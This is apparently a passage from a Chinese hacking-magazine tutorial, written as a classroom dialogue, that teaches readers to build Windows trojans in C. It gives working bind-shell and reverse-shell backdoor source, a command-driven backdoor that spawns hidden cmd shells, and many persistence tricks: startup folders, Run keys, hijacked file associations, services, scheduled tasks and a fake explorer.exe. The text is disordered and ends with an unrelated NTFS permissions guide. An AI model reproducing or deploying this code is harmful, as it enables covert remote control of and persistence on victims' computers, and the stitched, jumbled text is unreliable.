    if (lBytesRead <= 0) break;
    strcpy(cmdline, "cmd.exe /c ");
    strncat(cmdline, Buff, lBytesRead);
    CreateProcess(NULL, cmdline, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
}
```

“注意，这里的 `cmd /c` 的意思是命令执行完毕后，退出 DOS 窗口程序。”我们把程序连起来，仍然是接收远程命令数据→子进程执行→读出并传回，形成不断的循环，就是一个单管道的 telnet 后门了。

“完整的程序请参看 `CMDPipe1.cpp`，大家可以直接执行看看效果。大家要有思想准备，单管道后门可没那么好看哦。单管道、双管道各有优点，其实，我们还可以继续改进，得到零管道的木马。”

## 零管道木马和反弹木马

“咦？零管道的木马？”菜鸟 B 问道，“不用管道怎么读出 `cmd` 子进程的运行结果呢？”

“呵呵，不是不用管道，”老师纠正道，“而是不用新建管道。其实是这样，我们用 `socket` 句柄直接替代 `cmd` 进程的输入和输出句柄，就像这样：”

```c
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
```

“这样替换后，`cmd` 的输入输出就可以直接和远程通信了，省去了进程间传输的所有东西。我们来看实现，但要注意，要用 `WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0)` 来建立 socket 才能这样替换。因为 `WSASocket()` 创建的 SOCKET 默认是非重叠套接字，才可以直接将 `cmd.exe` 的 `stdin`、`stdout`、`stderr` 转到套接字上。而 `socket()` 函数创建的 SOCKET 是重叠套接字，就不能这样。”

“程序比较短，就打出来吧。”老师指着下面的代码说道。执行后结果如图13。

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "ws2_32")

int main() {
    WSADATA ws;
    SOCKET listenFD;
    WSAStartup(MAKEWORD(2,2), &ws);
    listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = INADDR_ANY;
    bind(listenFD, (sockaddr*)&server, sizeof(server));
    listen(listenFD, 2);

    SOCKET clientFD;
    int iAddrSize = sizeof(server);
    clientFD = accept(listenFD, (sockaddr*)&server, &iAddrSize);

    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.hStdInput = si.hStdOutput = si.hStdError = (void*)clientFD;

    char cmdLine[] = "cmd.exe";
    PROCESS_INFORMATION ProcessInformation;
    CreateProcess(NULL, cmdLine, NULL, NULL, 0, NULL, NULL, NULL, &si, &ProcessInformation);
    return 0;
}
```

“一是因为遵循技术发展的路线，”老师笑道，“但更重要的是，这三种方法各有优劣。”

“零管道编写方法的确比较方便，但用户一输入命令，就直接进入 `cmd` 进程执行了。有时我们想预先处理下用户的命令，比如列举进程的命令——pslist，`cmd` 里面是没有这个命令的，就需要用双管道或单管道的方法，在木马中自己实现 `pslist` 的功能。随着时间的流逝，技术的发展，反弹木马也登上了历史的舞台。”

“反弹木马？”

“是的，刚才的程序，是目标机作为服务端，监听830端口；攻击机作为客户端，正向连接目标机的830端口……我们就得不到 shell 了。”

“嗯，是啊，那怎么办啊？”

“所以我们要使用反向连接。”老师说道。反向连接是指攻击机作为服务端，监听一个端口，而目标机上运行的木马作为客户端，主动连接攻击机监听的端口。

```c
WSAStartup(MAKEWORD(2,2), &ws);
s = WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
connect(s, (struct sockaddr*)&server, sizeof(server));
```

“连接成功后，我们不用管道，直接用 socket 句柄来代替 `cmd` 子进程的输入输出句柄。就像下面一样。”

```c
// cmd的输入输出句柄，都用socket来替换
si.hStdInput = si.hStdOutput = si.hStdError = (void*)s;
ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
```

“把它们合起来就可以得到反向连接的程序，`BackC.cpp` 如下。”

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "ws2_32")

int main() {
    WSADATA ws;
    SOCKET s;
    int ret;
    WSAStartup(MAKEWORD(2,2), &ws);
    s = WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = inet_addr("127.0.0.1");
    connect(s, (struct sockaddr*)&server, sizeof(server));

    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;

    // cmd的输入输出句柄，都用socket来替换
    si.hStdInput = si.hStdOutput = si.hStdError = (void*)s;
    char cmdLine[] = "cmd.exe";
    PROCESS_INFORMATION ProcessInformation;
    ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
    return 0;
}
```

“OK，测试一下，请出我们的‘瑞士军刀’——netcat！我们先用 `nc -l -p 830` 在本机上监听830端口，然后在目标机上运行我们的反弹木马，在我们的 nc 端成功获得一个 DOS shell，如图14。”

其实 nc 也算是个木马。它通过不同的参数，选择作为服务端或者作为客户端。我们可以把正向和反弹都合在一个程序中，通过不同参数来执行不同代码。

```c
if (作为服务端) {
    // 执行服务端的那个程序
} else {
    // 执行反弹木马的那个程序
}
```

“哎！不会吧，有黑客‘瑞士军刀’之称的 nc 居然可以由我们这样的菜鸟写出来？”小菜们几乎不相信自己的眼睛和耳朵。

# 反弹木马功能的增强和捆绑提权

“一个星期过后……”老师问道：“大家回去测试木马，有什……”

“但只有 DOS 的功能，现在觉得有点不足了，”小菜们继续说道，“而且每次都要手动运行了木马后才能连接，很麻烦，木马能不能自己运行啊？”

“呵呵，大家都独立地进行了思考嘛，这点很好，”老师表扬道。

“木马如同病毒，不会天上自己掉下来的，”老师说道，“但我们可以加强木马的存活性，保证第一次执行后，以后每次开机都会运行我们的木马。”

```c
if (lBytesRead <= 0)
    break;
switch (Buff[0]) {
case 'o':
    // 打开光驱
    mciSendString("set cdaudio door open", NULL, 0, NULL);
    break;
case 'c':
    // 关闭光驱
    mciSendString("set cdaudio door closed wait", NULL, 0, NULL);
    break;
}
```

# 五、打造初步后门

“我们只以工作在服务端的木马为例，讲解如何编写，”老师说道，“反弹木马的功能块部分，其实也是完全一样的。服务端木马，先用 `WSAStartup()` 初始化网络函数，再用 `WSASocket()` 建立 socket，然后用 `bind()` 绑定端口，`listen()` 进行监听，如果有客户端请求，就用 `accept()` 接受它。程序如下。”

“大家可以看见，开关光驱可以由 `mciSendString` 函数实现，它在 `mmsystem.h` 头文件中定义，需要 `Winmm.lib` 这个库文件。所以要在程序中加上下面两句话。”

```c
#include <mmsystem.h>
#pragma comment(lib, "winmm.lib")
```

“我们继续看看交换鼠标左右键吧。输入 x（exchange）交换按键，输入 r（restore）恢复按键。代码如下。”

```c
case 'x':   // 交换按键
    SwapMouseButton(1);
    break;
case 'r':   // 恢复按键
    SwapMouseButton(0);
    break;
```

```c
WSAStartup(MAKEWORD(2,2), &ws);
listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(830);
server.sin_addr.s_addr = INADDR_ANY;
ret = bind(listenFD, (sockaddr*)&server, sizeof(server));
ret = listen(listenFD, 0);

int iAddrSize = sizeof(server);
ag:
SOCKET clientFD = accept(listenFD, (sockaddr*)&server, &iAddrSize);
```

“关键在后面，”老师说道，“客户端建立连接后，木马接受攻击者发过来的命令数据，不给 `cmd` 子进程，而是进行判断，对不同的命令做不同的处理。”

“具体的实现，就是 `lBytesRead = recv(clientFD, Buff, 1024, 0)`，把攻击者发过来的命令数据接收到 `Buff` 数组中，我们再对 `Buff` 进行判断。”

“使用 `switch(Buff[0])...case` 语句进行判断。比如 `switch(Buff[0])`，`case '1'` 处理1，就是如果 `Buff` 中的第一个数据 `Buff[0]` 为 `'1'`，就执行处理1里的语句；如果是 `switch(Buff[0])`，`case '2'` 处理2，就是 `Buff[0]` 为 `'2'` 的时候，执行‘处理2’里的语句。”

“这里使用 `SwapMouseButton()` 函数。当 `SwapMouseButton()` 函数参数为1的时候，交换鼠标左右键设置；参数为0的时候，恢复原来的设置。”老师解释道，“大家继续测试测试！”

众小菜重新编译了程序，运行并登录，输入“x”，这下目标机上按左键的时候，弹出的是右键菜单。“哈哈，果然成功了！”小菜们再输入“r”，又恢复了正常的鼠标使用。

“对，”老师总结道，“大家提到了两点，一是只是断开当前连接，以后可以再连；二是木马真正退出运行，除非想办法再次执行木马程序，否则以后不能再连接了。这两种功能木马都需要！这样才算完善。我们来分别实现它：输入 q（quit）的时候，暂时退出连接，以后可再连；输入 e（exit）为不仅退出连接，木马也完全退出运行。”

“先看第一个 q 命令。”

```c
case 'q':   // 退出连接，再次监听
    closesocket(clientFD);
    goto ag;
```

“输入 `q` 命令时，只需使用 `closesocket(clientFD)` 函数关闭当前的连接字就可以了，然后跳到 `ag` 的地方继续监听。`ag` 对应前面的 `SOCKET clientFD = accept(listenFD, (sockaddr*)&server, &iAddrSize)`，以后如果又有连接请求，就可以再次控制了。”

# 主题乐园

“而 `e` 命令执行如下。”

```cpp
case 'e': // 退出木马程序
    closesocket(clientFD);
    closesocket(listenFD);
    goto end;
```

“它把所有的套接字都关掉，然后跳到程序的最后，`end: ; return 0;` 的地方，整个木马运行结束。如果需要再次连接，则需要重新运行木马了。”

“对应的，在帮助信息里面添上 `q` 和 `e` 两个命令的提示。”

```cpp
case '?': // help
    send(clientFD, "? q c x r d e", sizeof("? q c x r d e"), 0);
    break;
```

“最后得到连起来的程序 `door1.cpp`，就是一个初步的木马‘结果’程序，运行效果如下图。输入问号‘?’显示帮助，输入‘q’断开连接，但可以再连；输入‘e’，才是真正的退出木马了。”


老师总结道：“虽然现在这个木马功能简单，界面不好看，没有提示符，也得不到 cmd shell 来执行 DOS 命令，但我们打造出了一个基本的架构，之后的工作就是在此基础上，一步步地完善它。”

## cmd shell 的自画妆

“有时我们确实想执行一些 DOS 命令，那个时候怎么办呢？”老师继续说道：“第一种方法可以通过 `system`、`WinExec` 等函数执行 DOS 命令；第二种，也是最好的方法，就是在攻击者输入 `s` 的时候，给 socket 绑定一个 cmd shell。”

```cpp
case 's':
    cmdshell(clientFD);
    send(clientFD, "Shell OK", sizeof("Shell OK"), 0);
    break;
```

“在 `cmdshell()` 这个函数中，使用零管道后门，将 cmd 子进程的输入输出句柄都替换为 socket。这样 cmd 的输入输出都直接给远程攻击者了。代码如下。”

```cpp
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
```

```cpp
STARTUPINFO si;
si.wShowWindow = SW_HIDE;
si.hStdInput = si.hStdOutput = si.hStdError = (void*)clientFD;
char cmdLine[] = "cmd";
PROCESS_INFORMATION ProcessInformation;
ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
```

为了木马长远、健康、持续运行，需要在攻击者输入 `exit` 退出 cmd shell 时安全地返回木马“结果”。为此使用 `WaitForSingleObject()` 等待 cmd 子进程执行完成。

```cpp
WaitForSingleObject(ProcessInformation.hProcess, INFINITE);
```

“完成后，杀掉进程，关闭进程句柄，就可以安全返回木马‘结果’了。”

```cpp
TerminateProcess(ProcessInformation.hProcess, 0);
CloseHandle(ProcessInformation.hProcess);
```

“除了实现 `cmdshell()` 这个函数外，我们还在帮助信息中添加一个 `s` 字符。然后编译新的木马文件 `door2`，执行效果如图16。”


“输入 `s` 时，就可以启动一个 cmd shell，在里面执行 DOS 命令；当输入 `exit` 退出后，又返回到木马‘结果’。”

# 七、模板与木马？

接下来讨论界面提示符：每次判断完用户命令后，向攻击端发送一个提示符，如 `send(clientFD, "door>", sizeof("door>"), 0);`，执行效果如图17。


“啊哟，怎么会显示两个提示符呢？”

“那是因为 telnet 客户端会把回车换成 `\r \n` 两个字符发送，第一个 `\r` 字符来了，我们判断后就产生了一个 `door>`；然后第二个 `\n` 字符来时，又产生一个 `door>`，所以就出现了两个！”

“哦，这样啊，那如何解决呢？”小菜们问道。

“解决也方便，我们判断发过来的命令长度，长度不为 0 的时候，发提示符。”

```c
if (strlen(cmd))
    send(ClientFD, "door>", sizeof("door>"), 0);
```

“输入命令不方便又是什么意思呢？”……“telnet 这样设计的目的，是用来减少时延……所以我们的木马为了处理一个字符串命令，要把字符存起来，直到 `0xa` 或 `0xd` 再执行。”

```c
while (iBytesRead < 256) {
    if (recv(ClientFD, Buff, 1, 0) == SOCKET_ERROR) {
        closesocket(ClientFD);
        goto ag;
    }
    cmd[iBytesRead] = Buff[0];
    if (Buff[0] == 0xa || Buff[0] == 0xd) {
        cmd[iBytesRead] = 0;
        break;
    }
    iBytesRead++;
}
```

“有了这个处理后，我们可以执行好长的命令了！”……“开光驱命令是 `open`，关光驱是 `close`，得到 cmd shell 是 `shell`，退出连接是 `quit`，退出木马运行是 `exit`。”

```c
if (strcmp(cmd, "shell") == 0) {
    cmdshell(clientFD);
    send(clientFD, "Shell OK\n\r", sizeof("Shell OK\n\r"), 0);
}
```

“像这样全部更改后，我们也把 help 信息改改，完整程序可以看 `door3.exe`，执行效果如图18。……WinEggDrop Shell 的帮助信息如图19。”


# 木马通道技术与自启动

“另一个很重要的问题，就是木马的自启动问题。”……“木马能再次启动是利用了 Windows 系统机制，我们修改一些配置，使 Windows 开机后自动运行木马，从而保证‘自启动’执行。”

“但我们的木马就可以利用系统的这个机制……所以不同系统的自启动方法是不同的，这里讲的是 Windows 下的方法。”

## 启动文件夹

“第一种方法是利用启动文件夹启动。其原理是 Windows 在启动时，会自动‘打开’开始菜单->启动文件夹中的所有项目……”


“Simple，把程序拷贝到启动文件夹中啊！”

“哈哈，good！就是这样，虽然可以 DOS 下敲命令，但还是来看有效可编程实现吧。”老师说道，“为了方便，我们把木马程序直接拷贝到所有用户的启动文件中。”

“首先获得系统所在的盘符。用 `GetSystemDirectory` 得到系统所在的目录，那么第一个字符就是所在的盘符！”

```cpp
GetSystemDirectory(TempPath, MAX_PATH);
TempPath[2] = '\0';
```

“这样 `TempPath` 里面存的是盘符和冒号，再：  
`strcat(TempPath,"\\Documents and Settings\\All Users\\开始\\菜单\\程序\\启动\\door.exe");`  
就在 `TempPath` 中指明了新文件的路径和名称。”

“而文件自身的路径和名称，通过 `GetModuleFileName(NULL, ExeFile, MAX_PATH)` 函数来得到，存放在 `ExeFile` 中。”

“最后拷贝，`CopyFile(ExeFile, TempPath, FALSE)`，就把 `ExeFile` 拷贝到 `TempPath` 了，最后一个参数为 `FALSE` 表示有同名文件就强制覆盖。”

“好了，我们来测试一下。删除掉启动文件夹里原有的文件，再执行这个 `StartUpFlod.cpp` 程序，成功地拷贝了自身到启动目录中，并命名为 `door.exe`，如下图23。”

文件中放入的是程序，那么会被自动运行；而如果放入的是 Word 文档，那么系统会自动运行 Word，并自动在 Word 中打开那篇文档；如果是 WAV 文件，则系统自动运行播放器，并自动播放该文件。

“哦，是这样啊。”大家点点头。

“放入快捷方式也可以！”老师补充道，“在系统中，启动文件夹有两种。一种是当前用户专有的启动文件夹，这是许多应用软件自动启动的常用位置。位置一般在系统盘：`\Documents and Settings\<用户名>\开始\菜单\程序\启动` 中，其中 `<用户名>` 是当前登录的用户账户名称，就像下面的图中位置一样。”


“哦，里面是一个 sniffer 的快捷方式！”小菜们说道。

“嗯，正确。另一种是对所有用户有效的启动文件夹，不管用户用什么身份登录系统，放入该文件夹的快捷方式总是自动启动——这是它与用户专有的启动文件夹的区别所在。该文件夹一般在系统盘：`\Documents and Settings\All Users\开始\菜单\程序\启动`，如下图22。”

“哇！是一个 `door.exe` 啊。”

“这下明白菜单中为什么有两个项了吧！”老师说道，“一个是当前用户启动文件夹中的程序，一个是所有用户启动文件夹里的程序。”

“哦！bingo！”小菜们弹了个响指。

“好了，原理讲解了，我们如何利用这个系统启动机制呢？”


# 黑客启动配置

“第二种方法，是利用注册表指明开机时要运行的程序。”老师说道。“其中利用得最多的是注册表中的 Run 注册键。在 Windows 启动后，就会执行其指示的命令。  
“Run 注册键最容易想到的地方是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`，和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。”

“哇，老师，你的 Run 键下面有好多程序要启动执行啊，里面好像也有木马。”小菜们大惊失色地说道。  
“分析讲解木马，当然需要亲自安装了很多来测试啊，讲解完后我会把它们删除的。”老师无所谓地说道，“大家看，里面显示清楚了要启动程序的具体位置。”如图24。  
“嗯，是 D 盘 winamp 目录下的 winampa.exe。”小菜们定睛一看。  
“对，如果我们不希望 winamp 播放器开机就自动启动，将这个键整个删掉就可以了。”

“除了刚才那两个位置的 Run，大家搜索一下注册表，还可以发现另外两个 Run 的键值，分别是 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`。  
“它们也可以完成开机启动的功能，但隐藏得更隐秘一点。”

“哇！老师，你这里也有启动程序！”菜鸟A指着注册表说道。  
“哦？是么，无所谓了——况且还是我自己中的。我会在上完这次课后将它们删掉的，如果比较麻烦，就重装系统！”  
“进入编程实现吧，我们要达到启动自动执行功能，只要在 Run 下面添加一个键值，内容为我们程序的路径和名称就可以了。我们先把木马拷贝到系统文件夹下；就是 2000 的 `winnt/system32` 或者 XP 的 `windows/system32` 目录下。拷贝前面也说过，具体代码是。”

```cpp
// 得到当前文件名
GetModuleFileName(NULL, ExeFile, MAX_PATH);
// 得到系统目录
GetSystemDirectory(TempPath, MAX_PATH);
strcat(TempPath, "\\door.exe");
// 拷贝加密系统文件夹名为 door.exe
ret = CopyFile(ExeFile, TempPath, FALSE);
```

“拷贝过去后，然后我们在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 位置下增加一个 `door` 的字符串值，里面的内容是我们在系统文件夹下的木马程序，这样开机后就会自动执行我们的程序了。”  
“其实是，用 `RegOpenKey` 函数打开 `HKEY_LOCAL_MACHINE` 下的那个 Run 键，`RegOpenKey(HKEY_LOCAL_MACHINE,"Software\\Microsoft\\Windows\\CurrentVersion\\Run",&key)`，然后用 `RegSetValueEx` 函数新建一个字符串值，名称为 `Test Door`，内容写为我们的木马，代码如下。”

```cpp
RegSetValueEx(key, "Test Door", 0, REG_SZ, (BYTE*)TempPath, strlen(TempPath));
```

“连起来测试一下，编译，执行 `RegisterRun.cpp`，程序拷贝自身到系统目录，并改名为 `door.exe` 且修改了注册表，其效果如下图25。”  
老师补充道：“所有的注册表键值的操作，都可以这样类似地实现。我们只需要改变 `RegOpenKey` 的参数，就能指明注册表的其它地方了。”  
“啊呵，除了 Run 键，我们还有其他的一些类似键值可以使用，有 `RunServices`、`RunOnce`，和 `RunServicesOnce`，在这些键值下指明的程序，也会在系统开机的时候自动执行。”  
“它们有什么区别呢？”  
“RunOnce 本意是只运行一次，本来是用于需要重启后继续安装的软件。RunServices 键的位置是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices`，和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`。RunOnce 键的位置是：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` 和 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`。如果是 XP，还有一个 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx`，而 RunServicesOnce 位置是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`，和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce`。最后，还有两个类似的启动键，也能够在 Windows 启动时自动运行程序。一个是 Load 注册键，位置在：`HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows\load`。还有一个是 Userinit 注册键，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\Userinit`。”

通常该注册键下面有一个 `userinit.exe`，但这个键允许指定用逗号分隔的多个程序，例如 `userinit.exe,door.exe`。老师解释道。

“这里把注册表的启动键全总结出来，以方便大家在查杀木马时有意识地查找，”老师最后说道，“我的记性也不好，写在这里也免得以后忘了。”

# 3.5 应用程序关联

“我们只能让 Windows 在启动时帮我们运行程序吗？”小菜们问道，“在启动之后还有机会执行我们的木马程序吗？”

老师说道：“问得好！还是有办法的，其中一种方法就是利用应用程序的关联！”

“关联？什么关联？”

“比如我们双击 txt 文本文档时，Windows 会运行什么程序呢？”老师问。

“当然是记事本了！”台下异口同声地回答。

“对喽。那是因为在注册表的 `[HKEY_CLASSES_ROOT\txtfile\shell\open\command]` 和 `[HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command]` 位置中，指明了 txt 文件由记事本程序（notepad）来运行的。”

“哦！？还有这种事？”小菜们忙着打开注册表，找到了那个位置一看，如图26。


“我们来试一下。写一个弹出对话框的程序 `ww.exe`，放到系统目录下；然后把注册表中的 `notepad /%1` 改成 `ww.exe %1`，如下图27。这下双击记事本文档，就激发运行 `ww.exe`，看，弹出对话框了。”

“哈哈！原来还可以这样啊！”小菜们惊奇地说道。

“对，我们把关联程序改为我们自己的木马，这样用户在运行记事本的时候，就会神不知鬼不觉地运行了我们的木马。”

“同样的，其他常用程序的关联都可以改，比如 exe、bat、com 文件等等。它们的所在位置如下，同样地更改即可。”


```reg
[HKEY_CLASSES_ROOT\exefile\shell\open\command]="%1" %*
[HKEY_CLASSES_ROOT\comfile\shell\open\command]="%1" %*
[HKEY_CLASSES_ROOT\batfile\shell\open\command]="%1" %*
[HKEY_LOCAL_MACHINE\Software\CLASSES\batfile\shell\open\command]="%1" %*
[HKEY_LOCAL_MACHINE\Software\CLASSES\comfile\shell\open\command]="%1" %*
[HKEY_LOCAL_MACHINE\Software\CLASSES\exefile\shell\open\command]="%1" %*
```

# 4.6 启动文件

“呵呵，除了注册表，一些文件里指示的东西，Windows 也会去执行。”老师说道。

“哦？什么样的文件？我们写一个行不？”

“当然不行，需要是 Windows 的配置文件。”老师说，“不过有一个文件例外，但几乎没有人知道。”

“啊？什么文件啊？”

“`WINSTART.BAT`，”老师说道，“在 Windows 目录中。这个文件甚至可能没有，但我们可以轻松地生成它，并指明要运行的程序。”

```cpp
System("echo door.exe>c:\\WINSTART.BAT");
```

“呵呵，越来越有意思了！”

“还有呢，”老师继续眉飞色舞地说道，“在 Windows 目录下的 `WIN.INI` 文件中，`RUN=` 一栏和 `LOAD=` 一栏中指明的程序，也会被 Windows 执行；”

“另外一个 `System.ini` 文件中的 `Shell` 栏，也可以被我们利用。我们要执行 `door.exe`，只要这样改改就成。”

```ini
[boot]
shell=explorer.exe c:\windows\filename
```

# 5.5 注册服务

“除了上面的这些方法，常规木马的启动还有一些办法。”老师说道。“第一，可以把木马注册为 NT、2000、XP 的服务，这样来完成启动。我们可以手动来完成注册安装，不过现在在学编程，所以来看看程序是如何实现的。首先打开服务控制管理器。”

```cpp
SC_HANDLE schSCManager = OpenSCManager(
    NULL, NULL, SC_MANAGER_CREATE_SERVICE);
```

“然后新建一个服务，指明服务名 `door`，显示名 `door`，和木马文件名 `door.exe`。”

```cpp
SC_HANDLE schService = CreateService(
    schSCManager, "door", "door", ... );
```

“添加成功后，在注册表的 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\door` 建一个 Description 描述键，写成 door。代码如下。”

```c
RegOpenKey(HKEY_LOCAL_MACHINE,
"SYSTEM\\CurrentControlSet\\Services\\door", &key);
RegSetValueEx(key, "Description", 0, REG_SZ, (BYTE*)door, lstrlen(door));
```

“第二，可以利用任务计划，Task Scheduler。IPC 下经典的 at 命令攻击就是指明多长时间后执行一个程序。”

“哦，那我们在程序中加入指明一天后启动，这样明天运行后，又会指明下一个一天后运行，就这样周而复始！”菜鸟 A 得意地说道。

“嗯，可以。但有个问题，万一那个时候正好没有开机，那么木马不就从此挂掉了吗？”

“还好我们可以编程实现，多指定几次任务吧。”

“用函数 NetScheduleJobAdd 实现，大家可以查查 MSDN。”

老师说道：“第三种方法更绝，Windows 启动时会加载 explorer.exe，但如果存在 `c:\explorer.exe`，那么系统会去执行 `c:\explorer.exe`，而不是 Windows 目录中的真正的 explorer.exe。这下我们的活就简单了，不用更改文件和注册表，只用把木马文件放在 C 盘根目录下，命名为 explorer.exe 就可以了。”

# 第六课：尾声

“不知不觉这么晚了啊！”老师看了看表，说道，“本来还打算讲很多内容的，包括木马更高级的技术，主要分为隐藏和功能两方面。”老师回答道，“隐藏包括 dll 木马的编写，和通过远程进程注入隐藏木马进程；利用嗅探来隐藏端口；利用 ICMP 或 TCP 隧道来突破防火墙；Hook API 技术来保证更隐蔽的操作。功能包括自己实现 dos 功能；上传下载文件；嗅探记录密码；屏幕抓取和控制；真人监视——开物理摄像头；控制打印机、传真机等等。”

“哇！这么多新东西啊！口水都要流出来了……”小菜们说道。

“最后会深入到系统驱动和内核 rootkit 的实现的……但这两次课的基础知识都要超越课时了，如果大家有兴趣继续听，黑客 X 档案还给我开台的话，我们再继续。这次课就到这里，同学们再见了！”

## NTFS磁盘格式重磅攻略

- 前言
- 一、向 NTFS 磁盘格式进行转换
- 二、NTFS 磁盘的访问控制
- 三、NTFS 磁盘的加密
- 四、NTFS 文件系统下的对象访问审核
- 五、NTFS 文件系统下的磁盘配额

# 前言

随着互联网的发展，网络已经将每一台机器送上了 Internet，也正是如此，操作系统本身的安全性得到了前所未有的重视。微软在 NT 系列操作系统中推出 NTFS 磁盘格式，带来了更高的安全性和可靠性。本文围绕 NTFS 相关安全特性进行介绍。

# 一、向 NTFS 磁盘格式进行转换

NTFS 磁盘格式主要面向 NT 系列操作系统。若系统支持 NTFS，安装时可自动提示转换；若仍使用 FAT32，也可在安装后转换。例如可将 C 盘由 FAT32 转换为 NTFS。

```bash
convert C: /fs:NTFS
```

执行命令后系统会在下次重启时自动转换。转换完成后可在磁盘属性中看到 NTFS 字样及新增的“安全”“配额”等选项。

# 二、NTFS 磁盘的访问控制

本部分介绍 NTFS 磁盘安全性的具体体现。对 NTFS 来说，安全性主要体现在权限、加密和审核等方面，下面先从权限设置开始说明。

## 2.1 权限设置

文中以 E 盘上的 test 文件夹和 test.txt 文件为例说明权限设置流程：选择对象，打开属性，在“安全”选项卡中配置用户或组的访问权限。

图示说明了默认权限可能较宽松，建议在磁盘转换完成后及时调整安全属性，并按实际账户（如 administrator、ntfs-test 等）进行最小权限配置。

由于默认情况下，任何人都可对磁盘进行访问和修改资源，因此我们有必要删除 Everyone 组以便更好地体现 NTFS 的安全性。按照正常方法，在打开的“安全”卡片的“名称”中选中 Everyone 组，然后点击“删除”按钮即可删除。

但是由于该文件夹权限继承于父级对象，删除时会出现错误提示（如图 3），提示用户无法直接修改继承而来的权限。

在安全属性中，去掉“允许来自父项的可继承权限传播给该对象(H)”前的勾选后，会弹出提示框（如图 4）。处理后无需额外操作即可看到 Everyone 组被自动删除（如图 5）。

此时可为需要限制权限的用户进行设置：点击“添加”，在“选择对象”对话框中选择用户（或用户组）并确认（如图 6）。随后可在“权限”区域勾选相应项目完成控制（如图 7）。

对于权限设置还可进一步做访问控制。在 ACL 中可针对某个访问控制元素（ACE）进行更细致配置。以 ntfs-test 用户为例，点击“高级”后进入“权限”页，可查看 administrator 与 ntfs-test 的权限项，并通过“查看/编辑”进入“权限项目”对话框进行细化分配。

## 2.2 更细致的权限配置

在上面的方法中，虽然可以设置某一用户或用户组的权限，但在“安全”卡片中可选权限项较少，无法完全满足权限细化需求，因此需要借助更高级的权限项目进行补充配置。

## 2.3 权限的继承

刚才我提到了“继承”一词。权限的继承我们完全可以从字面上理解：父文件夹设置了某一权限后，若该文件夹下的文件允许继承该文件夹的权限，那么文件夹内文件权限将与父文件夹权限相同。

还是刚才的 test 文件夹，该文件夹内有一个 test.txt 文本。在 test 文件夹的安全选项卡片上，点击“高级”进入“test 的访问控制设置”，在这里可以看到有两项可勾选：

- 允许来自父项的可继承权限传播给该对象
- 重置所有子对象的权限并允许传播可继承权限

显而易见，第一项就是让该文件夹继承父文件夹的权限，而第二项的作用就是让该文件夹的子文件或子文件夹继承该文件夹的权限。

关于继承，完全可以根据需求来进行。

## 2.4 文件或文件夹的所有者

默认情况下，某文件或文件夹的所有者就是该文件或文件夹的创建者。但是，由于在 Windows NT 系列操作系统中管理员权限最大，因此某一文件或文件夹的所有者可由管理员进行更改。

在一般情况下，无需更改文件夹的所有者，但是在一些特殊情况下，该功能十分有用。例如，某一文件夹的所有者对该文件夹设置了权限导致管理员无法查看，那么管理员可以通过强行获取所有权的方式成为该文件夹所有者，此时管理员就可以随意修改该文件夹的各种资源。

获得所有权的方法比较简单：打开某一文件夹的安全卡片，点“高级”，进入到文件夹的访问控制设置窗口后，选择“所有者”卡片，在这里名称中只有 administrator 或 administrators（如图 10）。

Windows NT 系列操作系统中，只有管理员才可以拥有至高无上的权利和权限，因此在此处只有 administrator 或 administrators 也不奇怪。

这时，若想将该文件夹的所有者设置为 administrator，那么选中 administrator，然后勾选下面的“替换子容器及对象的所有者”，再点击应用，这时所有者将会被设置为 administrator。

刚才我们说过，在文件夹所有者设置了特殊权限时，管理员可以使用该方法来突破权限以获得访问权。但是值得注意的是，如果该文件夹的所有者对该文件夹进行了 EFS 加密，那么获得所有权的方法并不能突破加密。EFS 加密的文件夹或文件，只能由加密者查看或修改。

